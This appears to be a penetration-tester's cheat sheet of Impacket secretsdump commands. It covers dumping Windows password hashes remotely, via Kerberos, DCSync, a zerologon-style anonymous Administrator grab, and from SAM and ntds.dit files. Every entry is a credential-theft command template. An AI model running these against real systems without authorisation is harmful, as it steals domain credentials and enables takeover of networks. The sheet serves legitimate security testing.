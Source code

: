 # secretsdump (imp)

% impacket-secrets, windows, smb, 445

## dump with account
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py ''<domain>/<user>:<password>''@<ip>
```

## dump with kerberos
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump -k <dc_name>
```

## extract hash from sam dump files
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py  -system <SYSTEM_FILE|SYSTEM> -sam <SAM_FILE|SAM> LOCAL
```

## extract hash from ntds.dit
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py  -ntds <ntds_file.dit> -system <SYSTEM_FILE> -hashes <lmhash:nthash> LOCAL -outputfile <ntlm-extract-file>
```

## anonymous get administrator 
zerologon
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py <domain>/<dc_bios_name>\$/@<ip> -no-pass -just-dc-user "Administrator"
```

## remote extract
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -just-dc-ntlm -outputfile <ntlm-extract-file> '<domain>/<user>:<password>'@<ip>
```

## remote extract + users infos
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -just-dc -pwd-last-set -user-status -outputfile <ntlm-extract-file> '<domain>/<user>:<password>'@<ip>
```

## remote dcsync (ptt)
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -k -no-pass -just-dc -outputfile <file-prefix>  -dc-ip <dc_ip> '<domain>/<user>'@<dc_name>
```